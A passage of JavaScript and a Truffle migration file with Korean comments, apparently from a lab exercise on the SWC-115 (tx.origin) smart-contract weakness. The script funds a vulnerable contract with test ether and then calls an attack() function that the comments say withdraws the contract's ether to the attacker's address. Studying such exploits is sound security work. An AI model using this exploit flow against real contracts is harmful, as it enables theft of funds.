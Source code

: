 ```jsx
        }
    )*/
}

//각 컨트랙트에 이더 값을 전송
//이더 전송 account addr = 0xd56F4FB08e8223BD3ca73CD291cB38fDa5D015a5 (마지막에서 두번째)
async function sendEther(){
    await _swc115.methods.a().send({from:"0xd56F4FB08e8223BD3ca73CD291cB38fDa5D015a5",gas:100000,gasPrice:'100000',value:web3.utils.toWei("0.2","ether")}).then(
        function(result2){
            console.log(result2);
        }
    )
}
sendEther();
swc115();
attack();

/*
sendEther() > swc115() > attack()
위 순서대로 진행하는 이유는, swc115 컨트랙트에 이더 값을 전송하고, 출금이 잘 되는지 확인하기 위함
-> sendEther() > swc115() 과정

attack()함수는 swc115 컨트랙트에 들어있는 이더 값을 공격자 주소로 출금하기 위한 함수

위는 함수가 실행되는 순서에 따라서 값을 받는 주소가 달라짐, 같이 실행하면 위에 있는 함수가 받음
*/
```

- test_mig.js

```jsx
const swc115 = artifacts.require("swc115");
const attack = artifacts.require("attack");

module.exports = function (deployer) {
  deployer.deploy(swc115);
  deployer.deploy(attack);
};
```
